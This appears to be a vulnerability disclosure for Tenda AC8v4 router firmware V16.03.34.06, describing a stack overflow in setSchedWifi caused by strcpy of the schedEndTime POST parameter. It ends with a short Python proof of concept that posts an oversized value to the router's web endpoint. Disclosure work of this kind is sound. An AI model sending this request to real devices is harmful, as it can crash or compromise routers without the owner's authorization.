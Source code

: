 # Tenda AC8v4 V16.03.34.06(2)

## Overview

- Firmware download website: https://www.tenda.com.cn/material/show/103518

## Affected version

V16.03.34.06

## Vulnerability details

The Tenda AC8v4 V16.03.34.06 firmware has a stack overflow vulnerability in the `setSchedWifi` function. The `v8` variable receives the `schedEndTime` parameter from a POST request and is later assigned to the `ptr+10` variable, which is fixed at 25 bytes. However, since the user can control the input of  `schedEndTime`, the statement `strcpy((char *)ptr + 10, v8);` can cause a buffer overflow. The user-provided  `schedEndTime` can exceed the capacity of the `dest` array, triggering this security vulnerability.

![1735652460255](/img/1735652460255.png)

![1735652484802](/img/1735652484802.png)

![1735652519036](/img/1735652519036.png)

## POC

```python
import requests

url = "http://192.168.1.100/goform/openSchedWifi"
data = {
        "schedEndTime":b'A'*1000
}
requests.post(url=url,data=data)
```

![1735650674572](/img/1735650674572.png)

